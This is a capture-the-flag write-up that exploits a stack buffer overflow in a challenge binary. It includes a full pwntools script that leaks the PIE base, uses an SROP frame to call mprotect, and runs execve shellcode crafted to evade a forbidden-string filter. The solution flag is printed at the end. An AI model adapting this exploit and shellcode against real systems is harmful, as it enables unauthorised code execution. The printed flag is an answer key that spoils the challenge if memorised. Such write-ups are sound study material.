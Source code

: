 # Database Intrusion - Writeup

---

## Exploit Demo

This demo shows the full exploitation flow:

![Alt text](gif/DatabaseIntrusion.gif)

---

## Binary Inspection

We begin by examining the binary format and security properties.

### Step 1: Binary Format

```bash
$ file main
```

The binary is a 64-bit dynamically linked PIE executable.

![Alt text](img/1.png)

---

### Step 2: Security Properties

```bash
$ pwn checksec main
```

Security summary:

- **Full RELRO**
- **No Stack Canary**
- **NX enabled**
- **PIE enabled**

![Alt text](img/2.png)

---

## Static Analysis (IDA Pro)

```c
int vuln() {
  _BYTE buf[64];
  printf(">> Secure channel established at %p:%p.\n", buf, vuln);
  read(0, buf, 0x190);
  check_forbidden(buf);
  return puts("Hint: You don't need ga\ndgets for rax!");
}
```

- `buf` and `vuln` addresses are leaked.
- `check_forbidden()` runs _after_ the overflow, so shellcode must not contain blocked substrings.
- Buffer is on the **stack**, so we need to **mprotect** it before execution.

---

## Vulnerability Summary

The function `vuln()` contains a **buffer overflow** on a 64-byte buffer due to an unchecked `read()` call that reads **0x190 bytes**:

```c
char buf[64];
read(0, buf, 0x190);  // Vulnerable
```

Furthermore, a `check_forbidden()` function filters out strings such as `/bin/sh`, `ls`, `bash`, and more — preventing traditional `system("/bin/sh")` shellcode or command injection.

---

## Exploit Strategy

Due to the NX bit and forbidden string filter, we use **Sigreturn-Oriented Programming (SROP)** to:

1. Call `mprotect()` to mark the stack **RWX**.
2. Inject and execute a **custom shellcode** that avoids forbidden strings.

### Overview

1. **Leak PIE base** from `printf("%p:%p", buf, vuln)` in `vuln()`.
2. **Page-align the stack buffer** to use in `mprotect()`.
3. **Craft a SROP frame** that sets up a `mprotect` syscall to make stack executable.
4. **Inject shellcode** directly into the buffer.
5. **Jump to shellcode** after stack permissions are changed.

---

## Exploit Script

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template
from pwn import *
context.arch = 'amd64'
context.os = 'linux'
# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or './main')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

#--------------------[ STEP 1 : PIE_BASE ]--------------------

io.recvuntil(b'>> Secure channel established at ')
leak_vals = io.recvline().split(b':')
log.success	(f"leak_vals : {leak_vals}")
buf_addr = int(leak_vals[0],16)
vuln_addr = int(leak_vals[1].strip()[:-1],16)
log.success(f"buf @ : {hex(buf_addr)} ,, vuln @ : {hex(vuln_addr)}")
pie_base = vuln_addr - exe.sym['vuln']
exe.address = pie_base
log.success(f"exe.address @ {hex(exe.address)}")

#--------------------[ STEP 2 : MAKE STACk RWX WITH MPROTECT SYSCALL ]--------------------

# Setup ROP and gadgets
rop = ROP(exe)
syscall_gad = rop.find_gadget(['syscall'])[0]
ret_gad = rop.find_gadget(['ret'])[0]

# Page align the buffer address for mprotect
page_size = 0x1000
page_aligned_addr = buf_addr & ~(page_size - 1)

# Build SigreturnFrame for mprotect syscall
frame = SigreturnFrame()
frame.rax = 10            # syscall number for mprotect
frame.rdi = page_aligned_addr  # page-aligned address
frame.rsi = page_size     # length (one page)
frame.rdx = 7             # PROT_READ | PROT_WRITE | PROT_EXEC
frame.rip = syscall_gad   # syscall; ret gadget address
frame.rsp = buf_addr  # new stack pointer after sigreturn

#--------------------[ STEP 3 : SHELLCODE ]--------------------

shellcode = asm('''
    xor rsi, rsi
    push rsi
    mov rdi, 0x68732f2f6e69622f
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    mov al, 0x3b
    syscall
''')

#--------------------[ STEP 4 : PAYLOAD ]--------------------

offset = 16
payload=p64(buf_addr+8)
payload+= shellcode
payload+= b'\x90' * (72 - len(payload) )
payload+= p64(syscall_gad)
payload+=bytes(frame)

io.recvuntil(b'>> Root key required to proceed:\n')
io.sendline(payload)



io.interactive()


```

---

## Final Notes

- The SROP frame allows us to _bypass the NX bit_.
- The injected shellcode is carefully crafted to avoid any substrings checked by `check_forbidden()`.
- We pivot back into the shellcode via `rsp` in the frame after `mprotect()` succeeds.

---

## Result

After successful execution, a shell is spawned **without using any forbidden string**, granting control of the target system.

---

## Flag

```
RedPointer{X!r7v9-Kaleido.phs}
```
